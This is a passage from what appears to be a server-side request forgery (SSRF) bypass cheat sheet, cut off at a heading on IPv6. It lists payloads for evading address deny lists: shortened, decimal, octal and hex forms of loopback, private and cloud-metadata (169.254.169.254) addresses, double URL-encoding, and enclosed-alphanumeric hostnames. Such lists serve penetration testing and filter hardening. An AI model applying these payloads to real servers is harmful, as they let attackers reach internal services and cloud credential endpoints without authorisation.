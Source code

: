 You can short-hand IP addresses by dropping the zeros

```powershell
http://0/
http://127.1
http://127.0.1
```

### Bypass Using an Encoded IP Address

* Decimal IP location

    ```powershell
    http://2130706433/ = http://127.0.0.1
    http://3232235521/ = http://192.168.0.1
    http://3232235777/ = http://192.168.1.1
    http://2852039166/ = http://169.254.169.254
    ```

* Octal IP: Implementations differ on how to handle octal format of IPv4.

    ```powershell
    http://0177.0.0.1/ = http://127.0.0.1
    http://o177.0.0.1/ = http://127.0.0.1
    http://0o177.0.0.1/ = http://127.0.0.1
    http://q177.0.0.1/ = http://127.0.0.1
    ```

* Hex IP

    ```powershell
    http://0x7f000001 = http://127.0.0.1
    http://0xc0a80101 = http://192.168.1.1
    http://0xa9fea9fe = http://169.254.169.254
    ```

### Bypass Using Different Encoding

* URL encoding: Single or double encode a specific URL to bypass blacklist

    ```powershell
    http://127.0.0.1/%61dmin
    http://127.0.0.1/%2561dmin
    ```

* Enclosed alphanumeric: `①②③④⑤⑥⑦⑧⑨⑩⑪⑫⑬⑭⑮⑯⑰⑱⑲⑳⑴⑵⑶⑷⑸⑹⑺⑻⑼⑽⑾⑿⒀⒁⒂⒃⒄⒅⒆⒇⒈⒉⒊⒋⒌⒍⒎⒏⒐⒑⒒⒓⒔⒕⒖⒗⒘⒙⒚⒛⒜⒝⒞⒟⒠⒡⒢⒣⒤⒥⒦⒧⒨⒩⒪⒫⒬⒭⒮⒯⒰⒱⒲⒳⒴⒵ⒶⒷⒸⒹⒺⒻⒼⒽⒾⒿⓀⓁⓂⓃⓄⓅⓆⓇⓈⓉⓊⓋⓌⓍⓎⓏⓐⓑⓒⓓⓔⓕⓖⓗⓘⓙⓚⓛⓜⓝⓞⓟⓠⓡⓢⓣⓤⓥⓦⓧⓨⓩ⓪⓫⓬⓭⓮⓯⓰⓱⓲⓳⓴⓵⓶⓷⓸⓹⓺⓻⓼⓽⓾⓿`

    ```powershell
    http://ⓔⓧⓐⓜⓟⓛⓔ.ⓒⓞⓜ = example.com
    ```

* Unicode encoding: In some languages (.NET, Python 3) regex supports unicode by default. `\d` includes `0123456789` but also `๐๑๒๓๔๕๖๗๘๙`.

### Bypassing via ipv6 hostname

